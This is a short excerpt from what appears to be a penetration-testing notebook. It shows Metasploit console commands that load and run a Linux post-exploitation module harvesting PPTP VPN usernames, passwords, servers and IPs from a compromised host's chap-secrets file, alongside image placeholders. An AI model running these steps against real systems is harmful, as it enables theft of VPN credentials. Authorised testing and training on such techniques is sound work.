 <figure><img src="../../../../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

* Check for **PPTP VPN chap-secrets credentials**

```bash
search pptpd_chap_secrets
use post/linux/gather/pptpd_chap_secrets
info
# Description:
#   This module collects PPTP VPN information such as client, server, 
#   password, and IP from your target server's chap-secrets file.
set SESSION 2
run
```

<figure><img src="../../../../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

